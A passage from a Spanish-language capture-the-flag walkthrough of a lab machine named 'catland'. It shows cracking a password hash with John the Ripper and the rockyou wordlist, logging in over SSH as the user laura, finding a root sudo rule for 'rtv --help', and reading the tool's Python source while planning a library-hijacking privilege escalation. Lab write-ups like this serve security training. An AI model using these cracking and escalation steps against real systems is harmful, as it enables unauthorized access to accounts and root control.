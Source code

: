 ```
$ john hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt
[...]
$ john hash --show                                              
?:berbatov

1 password hash cracked, 0 left
```

Efectivamente era necesario cambiar la contraseña ya que era muy debil ;)

Con esta contraseña puedo utilizar ssh para iniciar sesión como el usuario Laura.

```
$ ssh laura@192.168.1.80             
[...]
Last login: Sat Jan  7 14:44:44 2023 from 192.168.0.29
laura@catland:~$ :)
```

Compruebo los permisos de sudo:

```
laura@catland:~$ sudo -l
Matching Defaults entries for laura on catland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User laura may run the following commands on catland:
    (ALL : ALL) NOPASSWD: /usr/bin/rtv --help
```

Parece ser que Laura puede ejecutar "rtv --help" como usuario root. Si "rtv" no tuviese el argumento "--help" el escalado de privilegios sería mucho mas sencillo.

Tras leer el ejecutable, identifico que es código en python por lo que quizá se pueda realizar un ataque de "Libray Hijacking" o tener permisos de escritura en alguna libreria que utilice.

```
laura@catland:~$ cat /usr/bin/rtv
#!/usr/bin/python3
# EASY-INSTALL-ENTRY-SCRIPT: 'rtv==1.27.0','console_scripts','rtv'
import re
import sys

# for compatibility with easy_install; see #2198
__requires__ = 'rtv==1.27.0'

try:
    from importlib.metadata import distribution
except ImportError:
    try:
        from importlib_metadata import distribution
    except ImportError:
        from pkg_resources import load_entry_point


def importlib_load_entry_point(spec, group, name):
    dist_name, _, _ = spec.partition('==')
    matches = (
        entry_point
        for entry_point in distribution(dist_name).entry_points
        if entry_point.group == group and entry_point.name == name
    )
    return next(matches).load()


globals().setdefault('load_entry_point', importlib_load_entry_point)

```